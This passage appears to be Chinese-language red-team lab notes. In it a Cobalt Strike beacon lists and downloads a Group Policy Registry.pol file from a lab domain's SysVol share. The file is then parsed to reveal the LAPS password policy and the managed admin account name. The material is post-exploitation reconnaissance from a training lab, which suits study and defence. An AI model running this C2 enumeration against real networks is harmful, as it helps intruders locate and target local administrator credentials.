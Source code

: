 根据上面枚举的gpcfilesyspath下载Registry.pol这个文件

```
beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5A20DA0D-2710-4FF6-A19C-AE9EE5712BE7}\Machine
[*] Tasked beacon to list files in \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5A20DA0D-2710-4FF6-A19C-AE9EE5712BE7}\Machine
[+] host called home, sent: 118 bytes
[*] Listing: \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5A20DA0D-2710-4FF6-A19C-AE9EE5712BE7}\Machine\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     03/25/2021 10:35:38   Preferences
          dir     03/25/2021 10:34:26   Scripts
 575b     fil     03/25/2021 10:33:46   comment.cmtx
 746b     fil     03/25/2021 10:33:46   Registry.pol

beacon> download \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5A20DA0D-2710-4FF6-A19C-AE9EE5712BE7}\Machine\Registry.pol
[*] Tasked beacon to download \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5A20DA0D-2710-4FF6-A19C-AE9EE5712BE7}\Machine\Registry.pol
[+] host called home, sent: 121 bytes
[*] started download of \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5A20DA0D-2710-4FF6-A19C-AE9EE5712BE7}\Machine\Registry.pol (746 bytes)
[*] download of Registry.pol is complete
```

同步到CS客户端，分析这个文件


```
PS C:\Users\Administrator\Desktop> Parse-PolFile .\Registry.pol


KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordComplexity
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 3

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordLength
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 14

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordAgeDays
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 7

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : AdminAccountName
ValueType   : REG_SZ
ValueLength : 20
ValueData   : lapsadmin

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : AdmPwdEnabled
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1

```
